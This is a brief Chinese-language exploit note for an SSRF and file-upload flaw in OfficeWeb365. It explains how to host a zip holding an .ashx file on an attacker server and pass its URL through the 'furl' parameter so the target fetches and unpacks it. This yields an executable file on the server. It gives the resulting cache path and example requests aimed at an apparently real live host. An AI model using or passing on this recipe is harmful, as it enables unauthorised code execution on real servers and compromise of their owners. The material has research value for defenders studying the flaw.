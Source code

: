 # OfficeWeb365 furl SSRF 文件上传漏洞

    需要提前准备 2 个文件，一个 ashx 和一个 txt 文件
 将这两个文件打包为 2.zip，然后起一个 http 服务提供给网站远程下载 然后访问?furl=http://你的公网服务器/2.zip
 随后即可发现网站对该 zip 进行了下载和解压，这里可以预览 txt 格式文件获取 zippath 参 数的值

然后 ashx 文件的地址即为:

http://x.x.x.x/cache/office/x.x.x.x.x/82308141956519700010097_486/2.ashx

```
https://sview.sv3d.cn:8443/?furl=http://xx.xx.xx.xx/2.zip
```

![image](https://s1.ax1x.com/2023/08/18/pP3p0v6.png)

![image](https://s1.ax1x.com/2023/08/18/pP3prDO.png)

https://sview.sv3d.cn:8443/cache/office/xx.xx.xx.xx.80/82308181306555000010050_833/

![image](https://s1.ax1x.com/2023/08/18/pP3p6Ve.png)
